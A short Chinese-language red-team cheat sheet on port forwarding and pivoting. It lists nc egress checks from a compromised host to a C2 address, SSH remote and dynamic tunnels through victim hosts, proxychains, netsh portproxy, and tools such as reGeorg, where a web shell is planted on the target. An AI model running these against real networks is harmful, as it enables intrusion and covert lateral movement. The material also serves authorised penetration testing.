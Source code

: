 ```yaml
---
sidebar_label: '紅隊安全 | 端口轉發與跳板'
---
```


# 紅隊安全 | 端口轉發與跳板
###### tags: `資訊安全`、`攻擊技術`、`紅隊滲透`

## 用途
- 内網橫向移動
- 跳板


## 常見tunnel分類

| 網路分層  | 協定      | 
| -------- | -------- | 
| 應用層    | ssh, http, https, DNS  | 
|  傳輸層   |     TCP, UDP  |
|  網路層   |  IPv6, ICMP, GRE  |

## 探測出網

### TCP
- compromised：`nc -nv <C2 ip> <port>`
- attacker：`nc -lvp <port>`

### UDP
- compromised：`nc -nv <C2 ip> <port>`
- attacker：`nc -nlvp <port>`

## Proxy chain

- Proxy Chains
    - sudo vim /etc/proxychains4.conf
    - socks5 127.0.0.1 9487
    - USAGE：`proxychains <command>`

## ssh tunneling

- SSH Tunnel
    - Remote Port Forwarding：`ssh -R kali:<port> user@linux host`(受害主機)
    - Dynamic Port Forwarding：`ssh –D 127.0.0.1:9487 user@hostA`(受害主機)
    - socks server

## Chisel
- https://github.com/jpillora/chisel

## netsh portproxy (Windows)
- `netsh interface portproxy add v4tov4 listenaddress=<ip> listenport=<port> connectaddress=<tgt_ip> connectport=<tgt_port>`

## reGeorg (AV會抓)
 - `https://github.com/sensepost/reGeorg`
    - tunnel.ashx 放在目標機上
    - 攻擊機上執行：python2 reGeorgSocksProxy.py -u 'url' -p 'port'
## Neo-reGeorg
- https://github.com/L-codes/Neo-reGeorg
    - python neoreg.py generate –k 密碼
    - python neoreg.py –k 密碼 –u 網址

## Venom
- 多層跳板：https://github.com/Dliv3/Venom